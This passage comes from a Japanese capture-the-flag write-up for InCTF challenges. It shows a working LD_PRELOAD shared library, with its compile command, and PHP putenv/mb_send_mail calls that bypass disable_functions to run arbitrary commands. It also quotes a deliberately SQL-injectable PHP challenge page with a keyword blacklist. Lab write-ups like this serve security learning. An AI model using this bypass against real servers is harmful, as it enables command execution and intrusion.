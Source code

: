 まず、[Bypass disable_functions with LD_PRELOAD \| 1pwnch's Blog](https://blog.1pwnch.com/websecurity/2019/04/08/Bypass-disablefuncs-with-LDPRELOAD/) を参考に以下のような内容の `evil.c` を作ります。

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

__attribute__ ((__constructor__)) void neko(void) {
  unsetenv("LD_PRELOAD");
  const char *cmd = getenv("NYAN");
  system(cmd);
}
```

これを `gcc -shared -fPIC evil.c -o evil.so` でコンパイルして、ZIP に固めてアップロードします。先程の `a.phtml` で `putenv('LD_PRELOAD=/var/www/html/uploads/82295f449786f84f9cf8adec1fc7705f/evil.so');putenv('NYAN=/readFlag > /tmp/neko');mb_send_mail('','','');` を実行し、その後 `echo join(file('/tmp/neko'));` を実行するとフラグが得られました。

```
inctf{Ohh,you_are_the_ultimate_chainer,Bypassing_disable_function_wasn't_fun?:SpyD3r}
```

### GoSQLv2 (999)
> As you have solved GoSQL before, this is not gonna be that hard, because you know what to do!!!.
> 
> (URL)

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
include("./config.php");
$conn = mysqli_connect($host,$dbuser,$dbpass,$dbname);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

$name = $_GET['name'];

$blacklist  = "pad|ad|min|\"|substr|mid|concat|char|ascii|left|right|for| |from|where|having|";
$blacklist .= "insert|username|\/|go_to|\||or|and|\\\|=|#|\.|\_|>|like|between|reg|&|load|file|glob|cast|out|0b|";
$blacklist .= "rev|0x|limit|decode|conv|hex|in|from|innodb|\^|union|benchmark|sleep|if|case|coalesce|max|strcmp|proc|exp|group|rand|floor|pow";

if (preg_match("/$blacklist/i", $name)){
  die("Try Hard");
}

$query="select * from inctf2018_chall_2 where username='" . $name . "'";
echo "<h4>query: " . $query . " </h4>";
$result=mysqli_query($conn,$query);
if($result){
  $row=mysqli_fetch_array($result);
  if($row['username']=="admin"){
      header("Location:{$row['go_to']}");
}
  else{
      echo "<h4>You are not admin " . "</h4>";
  }
}
else{
  echo "<h4>Having a query problem" . "</h4><br>";
}
highlight_file(__FILE__);
```